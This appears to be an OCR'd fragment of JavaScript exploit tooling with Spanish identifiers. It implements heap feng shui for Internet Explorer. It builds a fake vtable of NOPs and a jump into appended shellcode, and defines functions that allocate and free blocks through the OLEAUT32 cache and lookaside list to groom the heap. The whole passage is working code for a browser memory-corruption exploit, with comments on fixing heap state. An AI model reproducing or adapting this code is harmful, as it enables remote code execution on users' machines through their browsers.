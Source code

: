         // 3 funciones para ejecutar el salto: nop, nop, [exc+8]+124
        var tablaVirtual = unescape("%u9090%u7ceb")   // nop, nop, jmp + 124
        for (var i = 0; i < 124/4; i++)
            tablaVirtual += this.direccion(direccionSaltoEjecucion);
        // If the vtable is the only entry on the lookaside, the first 4 bytes will
        // be 00 00 00 00, which disassembles as two add [eax], al instructions.
        // The jmp ecx trampoline will jump back to the beginning of the vtable and
        // execute the add [eax], al instructions. We need to use two sub [eax], al
        // instructions to fix the heap.
        tablaVirtual += unescape("%u0028%u0028") +    // two sub [eax], al instructions
                  codigoConcha + pila.rellena((tamanio-138)/2 - codigoConcha.length);
        return tablaVirtual;
    }

    //reserva memoria
    pilaLib.ie.prototype.escribeEnMemoria = function(numeroBytesBloque, etiquetaBloque) {
        var tamanio;
        // Calculate the allocation size
        if (typeof numeroBytesBloque == "string" || numeroBytesBloque instanceof String)
            tamanio = 4 + numeroBytesBloque.length*2 + 2;    // len + string data + null terminator
        else
            tamanio = numeroBytesBloque;
        // Make sure that the size is valid
        if (tamanio == 32 || tamanio == 64 || tamanio == 256 || tamanio == 32768)
            throw "Allocation sizes " + tamanio + " cannot be flushed out of the OLEAUT32 cache";
        // Allocate the block with the OLEAUT32 allocator
        this.escribeInts32Bits(numeroBytesBloque, etiquetaBloque);
    }

    pilaLib.ie.prototype.guardaTabla = function(tabla, numBloques) {
        var tamanio;
        // Calculate the allocation size
        if (typeof tabla == "string" || tabla instanceof String)
            tamanio = 4 + tabla.length*2 + 2;    // len + string data + null terminator
        else
            tamanio = tabla;
        // Make sure that the size is valid
        if ((tamanio & 0xf) != 0)
            throw "Allocation size " + tamanio + " must be a multiple of 16";
        if (tamanio+8 >= 1024)
            throw("Maximum lookaside block size is 1008 bytes");
        var numBloques = (numBloques ? numBloques : 1);
        for (var i = 0; i < numBloques; i++)
            this.escribeEnMemoria(tabla, "tablaAliberar");
        this.libera("tablaAliberar");
    }

    pilaLib.ie.prototype.guardaBloqueInjector = function(contenidoBloqueInjector, numFilas) {
        var numFilas = (numFilas ? numFilas : 1);
        for (var i = 0; i < numFilas; i++) {
            this.escribeEnMemoria(contenidoBloqueInjector,"e");//relleno
            this.escribeEnMemoria(contenidoBloqueInjector, "bloqueAliberar");
        }
        this.escribeEnMemoria(contenidoBloqueInjector,"e");//relleno
        this.libera("bloqueAliberar");
    }
